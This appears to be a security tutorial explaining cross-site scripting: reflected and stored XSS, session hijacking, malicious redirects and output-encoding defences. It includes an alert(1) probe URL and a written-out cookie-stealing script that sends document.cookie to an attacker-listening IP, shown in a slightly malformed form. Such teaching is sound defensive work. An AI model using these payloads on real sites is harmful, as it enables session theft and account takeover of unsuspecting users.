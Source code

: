 ## WEB
# Cross site scripting

<div align="center">
| <video src="" width="800" />
</div>

# XSS (Cross Site Scripting)

Here we cover the concept of cross site scripting, or as it is more broadly known 'XSS'. It is very actively exploited as it can be a tough vulnerability for website owners to stay on top of, and can affect many areas of a web app. It's often caused by having poor filtering of user provided data and allowing an attacker to get JavaScript code to execute in a user's browser - often providing access to their account, or redirecting them to malicious code. It can seem like an ongoing game of site owners cleaning XSS vulnerable output and an attacker finding another vulnerable area, or a more creative workaround to get it working again.

An example vulnerable point may be a name which is part of a querystring within a URL, eg `https://example.com?name=Bob` but rather than provide "Bob" you might be able to provide malicious code instead, so the URL is `https://example.com?name=<script>alert(1);</script>`. If visiting this URL you see an alert message pop up with `1` as the message you can be pretty sure you found a vulnerable area. This is a basic example and tools exist to try 1000's of different variations across a site to find obscure vulnerable areas.

# Session hijacking

With proof of a vulnerability and if the site has a [session cookie](), an attacker could craft a link to provide to a victim somehow (perhaps via email or messenger), which includes injected code to steal their session cookie value; and so will be able to 'hijack' their session. To demonstrate this, if the JavaScript portion of the URL instead contained say

`<script>document.location='https://1.268.3.5 data='%2bdocument.cookie</scr`

and the attacker was listening for incoming connections on that IP, they'd just have to wait for incoming cookie data when the victim clicked the link. As soon as the data comes in, they can copy the session cookie name & key value into their own browser to then have the same session as the victim, effectively joining them in their session and having access to their account, personal information and more!

# Stored XSS

The above is an example of **Reflected XSS** where the server reflects an attack back to the user via some provided data. Another common type of XSS is **Stored XSS**. This is where the attacker is able to get the web app to store their attack in a persistent store, such as a database. There's then no need to try to send links to anyone; whoever visits the site will have it triggered for them. One vulnerability could lead to thousands of other users on the site being compromised.

These attacks often succeed as user's typically trust the websites they're visiting, and don't consider that an attacker's malicious code may be delivered to them from the site.

# Convincing redirects

Aside from joining the victim in their session to have joint access to their account, the attacker may instead provide a link which instead of stealing their cookie information, shows a convincing warning message. Having an alert show on a site the victim trusts may give them the confidence that the site is advising and helping them, and proceed to download malware or other malicious code. If successful, the attacker can then use this to get a foothold on their computer.

>Browsers have gotten better at detecting XSS vulnerabilities as it's such a huge problem. However, website owners can protect themselves by running security tools to check for XSS vulnerabilities and of course manually confirming user provided code doesn't have XSS issues when output on a page.

# Cleaning user data to prevent XSS

Filtering user data when initially provided is a common approach to preventing XSS, but it can be tricky: we may accidentally remove characters that are valid, for example an apostrophe in the name *Tom O'Brien*, or the requirements for the sanitised data may change after the data has already been collected.

Rather than trying to filter user data on input, current best practices instead suggests accepting user data largely as-is, knowing that it is untrustworthy, and cleaning user data when output to the page. This allows for much more focused cleaning depending on the context, or where the user data is being used.

A common question is "How do you clean XSS on output?". Many frameworks offer simple cleaning functions, but it's possible to protect yourself if your framework does not offer this or you don't use a framework. While not bulletproof for all unicode character sets (e.g. UTF-16 rather than the more common UTF-8), there are 5 contexts you should clean within - HTML, Attribute, JavaScript, CSS and URL, each with their own requirements. See the [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) for more info.